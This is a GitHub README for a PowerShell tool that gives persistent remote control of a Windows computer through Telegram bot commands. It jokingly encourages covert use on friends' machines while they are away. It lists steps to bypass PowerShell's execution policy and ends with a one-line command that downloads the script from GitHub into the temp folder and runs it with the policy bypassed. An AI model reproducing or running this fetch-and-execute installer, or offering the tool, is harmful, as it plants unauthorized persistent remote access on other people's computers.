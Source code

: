 # Telegram-Controlled PowerShell Script


Get a persistence remote control access through telegram commands. Don't use it when ur friends are away from their computer 🤫

## 🛠 Prerequisites

- Windows 10 or newer
- PowerShell 5 or later (built-in)
- Internet connection
- A Telegram bot token (from [@BotFather](https://t.me/BotFather))
- Your own Telegram user ID (use [@userinfobot](https://t.me/userinfobot))

## 🔒 Enable Script Execution

Before running the script, allow PowerShell to execute local scripts:

## Powershell (Permanent fix)
```
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned
```
## Powershell (One-time fix for your session)
```
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
```
## Powershell pipeline
```
iwr 'https://raw.githubusercontent.com/xtofuub/PrankWare/main/prankware.ps1' -UseBasicParsing -OutFile "$env:TEMP\prankware.ps1"; powershell -ep bypass -File "$env:TEMP\prankware.ps1"

